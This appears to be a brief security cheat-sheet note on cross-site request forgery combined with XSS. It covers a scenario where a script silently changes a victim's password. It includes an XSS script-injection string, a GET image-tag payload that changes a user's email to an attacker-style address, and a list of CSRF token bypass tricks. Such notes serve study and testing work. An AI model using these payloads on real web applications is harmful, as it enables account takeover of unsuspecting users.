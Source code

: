[[csrf]]
`CSRF` attacks may utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the `JavaScript` `CSRF` payload), the `JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

```html
"><script src=//www.example.com/exploit.js></script>
```


https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html

##### Deliver

GET:
`<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">`

POST: dedicated html page with form and js for auto submit

##### CSRF token bypass
* Can be omitted on GET requests
* Removing CSRF token skips validation
* CSRF token is not tied to the user session
* CSRF token is tied to a non-session cookie